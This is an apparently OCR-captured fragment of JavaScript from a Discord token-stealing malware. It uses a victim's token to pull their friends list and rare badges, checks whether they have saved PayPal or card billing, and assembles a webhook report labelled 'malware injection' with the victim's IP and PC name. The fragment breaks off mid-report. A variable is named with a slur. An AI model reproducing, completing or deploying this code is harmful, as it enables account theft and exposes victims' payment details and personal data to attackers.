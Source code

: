                                         xmlHttp.open( "GET", "https://discord.com/api/v9/users/@me/relationships", false );
                                        xmlHttp.setRequestHeader("Authorization", "${token}");
                                        xmlHttp.send( null );
                                        xmlHttp.responseText`, !0).then((info4) => {
                                        function totalFriends() {
                                            var f = JSON.parse(info4)
                                            const r = f.filter((user) => {
                                                return user.type == 1
                                            })
                                            return r.length
                                        }
                                        function calcFriends() {
                                            var f = JSON.parse(info4)
                                            const r = f.filter((user) => {
                                                return user.type == 1
                                            })
                                            var gay = "";
                                            for (z of r) {
                                                var b = GetRBadges(z.user.public_flags)
                                                if (b != "") {
                                                    gay += b + ` ${z.user.username}#${z.user.discriminator}\n`
                                                }
                                            }
                                            if (gay == "") {
                                                gay = "no rare friends"
                                            }
                                            return gay
                                        }
                                        function cool() {
                                            const json = JSON.parse(info3)
                                            var billing = "";
                                            json.forEach(z => {
                                                if (z.type == "") {
                                                    return "\`❌\`"
                                                } else if (z.type == 2 && z.invalid != !0) {
                                                    billing += "\`✔️\`" + " <:paypal:896441236062347374>"
                                                } else if (z.type == 1 && z.invalid != !0) {
                                                    billing += "\`✔️\`" + " :credit_card:"
                                                } else {
                                                    return "\`❌\`"
                                                }
                                            })
                                            if (billing == "") {
                                                billing = "\`❌\`"
                                            }
                                            return billing
                                        }
                                        const json = JSON.parse(info);
                                        var params = {
                                            username: "fantasy",
                                            content: "",
                                            embeds: [{
                                                "title": "user login",
                                                "color": config['embed-color'],
                                                "fields": [{
                                                    name: "malware injection",
                                                    value: `\`\`\`${discordInstall}\n\`\`\``,
                                                    inline: !1
                                                }, {
                                                    name: "ip",
                                                    value: `\`${ip}\``,
                                                    inline: !0
                                                }, {
                                                    name: "pc name:",